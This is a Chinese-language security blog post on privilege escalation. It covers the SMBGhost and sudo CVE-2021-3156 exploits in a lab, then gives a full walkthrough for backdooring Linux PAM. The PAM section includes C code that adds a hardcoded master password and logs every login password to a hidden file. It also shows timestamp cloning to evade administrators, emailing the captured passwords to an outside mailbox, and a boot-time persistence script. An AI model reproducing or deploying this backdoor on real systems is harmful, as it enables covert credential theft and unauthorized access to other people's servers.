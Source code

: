 ```yaml
---
title: 手工提权
author: Spade-Z
top: false
cover: false
toc: true
mathjax: false
img: >-
  https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%830.png
coverImg: >-
  https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%831.png
summary: 通常情况下我们通过 Web 服务获取到站点的 Webshell 权限都是普通用户的权限，这个时候能做的事情非常的少，所以我们需要提权来进行扩大战果。
tags: 
    - 工具 
    - Windows提权 
    - Linux提权
categories: 
    - 系统安全
abbrlink: 24efcaff
date: 2020-12-5 09:28:46
password:
---
```



# 一、Window10 提权漏洞

漏洞复现
靶机：win10虚拟机  ip：192.168.216.128(防火墙关闭)
攻击机：kali虚拟机  ip：192.168.202.130

## 1:检测系统是否存在漏洞
> git下载地址[传送门](https://github.com/ollypwn/SMBGhost)

用法：python3 scanner.py 目标ip
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%831.png)

目标存在该漏洞
## 2:提权POC提权
POC下载地址[传送门](https://github.com/chompie1337/SMBGhost_RCE_Po)
- 第一步：msf生成反向连接木马：
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%832.png)
- 第二步：生成的exploit.py 生成的code，替换到exploit.py的USER_PAYLOAD参数，并把参数buf改为USER_PAYLOAD。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%833.png)
- 第三步：启动msf
配置监听
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%834.png)
- 第四步：运行poc，自动建立连接
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%835.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%836.png)
查看当前用户权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%837.png)
如果不是system权限可以使用msf中的getsystem进行一下提权，也可以使用对应漏洞的提权文件
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%838.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%839.png)
执行完提权文件cve-2020-0796-local.exe后可以看到成功提权到system权限

# 二、Linux sudo提权漏洞

漏洞编号：CVE-2021-3156
漏洞级别：高危
受影响版本：
		sudo: 1.8.2 - 1.8.31p2
        sudo: 1.9.0 - 1.9.5p1
检测方法：
    以非root用户登录系统，并运行如下命令：
    sudoedit -s /
-   如果响应一个以sudoedit:开头的报错，那么表明存在漏洞。
-   如果响应一个以usage:开头的报错，那么表明补丁已经生效。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8310.png)
POC利用
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8311.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8312.png)

# 三、自动劫持root密码并转发密码到邮箱

## 1.过PAM认证模块劫持密码
思路：在 xuegod63 上安装一个打了后门补丁的 PAM 认证模块，当用户来连接时，直接把密码记录下来。然后使用脚本发给我们的邮箱中
- 查看pam版本
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8313.png)
下载对应版本软件包

## 2.安装gcc和pam依赖
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8314.png)

## 3.安装PAM认证模块
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8315.png)
- 修改源码，在源码中添加后门
<pre style="background-color: #F0F8FF;">
[root@localhost Linux-PAM-1.1.8]# vim modules/pam_unix/pam_unix_auth.c
180 retval = _unix_verify_password(pamh, name, p, ctrl);
在 180 行下新增内容如下：
if(strcmp(p,"1234567")==0){
return PAM_SUCCESS;
}
if(retval==PAM_SUCCESS){
FILE *fp;
fp = fopen("/tmp/.logs","a");
fprintf(fp,"%s->%s\n",name,p);
fclose(fp);
}
</pre>
    1234567 是 backdoor 密码
    /tmp/.logs 记录系统登录密码
- 解决 64 位系统编译时遇到 yywrap()函数未定义问题
<pre style="background-color: #F0F8FF;">
[root@localhost Linux-PAM-1.1.8]# vi conf/pam_conv1/pam_conv_l.c
6 /* A lexical scanner generated by flex */
第六行下插入代码
7 int yywrap(){return 1;}
[root@localhost Linux-PAM-1.1.8]# vi doc/specs/parse_l.c
6 /* A lexical scanner generated by flex */
第六行下插入代码
7 int yywrap(){return 1;}
</pre>
- 配置 PAM 以下都是默认参数，因为安装了 flex，需要手工指定路径。
<pre style="background-color: #F0F8FF;">
[root@localhost Linux-PAM-1.1.8]# ./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
[root@localhost Linux-PAM-1.1.8]# make
</pre>
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8316.png)
- 安装编译好的PAM模块
`[root@localhost Linux-PAM-1.1.8]# cd /lib64/security/`
- 备份原始版本
`[root@localhost security]# mv pam_unix.so{,bak}`
-  覆盖系统现有pam
`[root@localhost security]# cp /root/Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so /lib64/security/`
- 克隆原始文件时间，防止时间戳发生改变被管理员检测到
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8317.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8318.png)
- 新建Xshell终端窗口
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8319.png)
    密码成功记录
    清除系统登陆记录
`[root@localhost security]# rm -rf /tmp/.logs`
- 测试后门密码登陆
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8320.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8321.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8322.png)
## 3.自动发送邮件
- （1）使用 mail.rc 实现发邮件
<pre style="background-color:#F0F8FF;">
[root@xuegod63 ~]# vim /etc/mail.rc #在此文件最后插入以下内容：
set from=15595243411@163.com smtp=smtp.163.com
set smtp-auth-user=15595243411 smtp-auth-password=PASSWORD smtp-auth=login
注：
set from=15595243411@163.com #指定发件人的邮箱，这里就写成和收件人的邮箱一样。
set smtp-auth-user=15595243411 #写自己发件人的邮箱帐号
smtp-auth-password=PASSWORD #写自己发件人的邮箱的授权码
</pre>
- （2）配置 163 邮箱，开启 pop3/smtp 服务
- （3）测试邮件发送
`[root@localhost ~]# mail -s "demo title" 15595243411@163.com < /tmp/.logs`
    查看
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8323.png)
- （4）编写 shell 脚本自动发邮件，邮件的主题是服务器的 IP 地址
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8324.png)
- （5）测试
`[root@localhost ~]# /bin/zipmail`
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8325.png)

## 4.实现当用户通过 ssh 登录系统后，自动发邮件
- 安装inotify
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8326.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8327.png)
<pre style="background-color: #F0F8FF;">
[root@localhost inotify-tools-3.13]# make  -j 4
[root@localhost inotify-tools-3.13]# make install
</pre>
-  编写出发时自动发邮件脚本
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8328.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8329.png)
- 设置开机启动zipmail脚本
<pre style="background-color: #F0F8FF;">
[root@localhost inotify-tools-3.13]# vi /etc/rc.local
#在此文件的最后插入以下内容。
/bin/zipmail &
</pre>
- 测试
`[root@localhost inotify-tools-3.13]# bash /etc/rc.local`
    Xshell退出重连一下
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8330.png)
- 查看一下进程
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8331.png)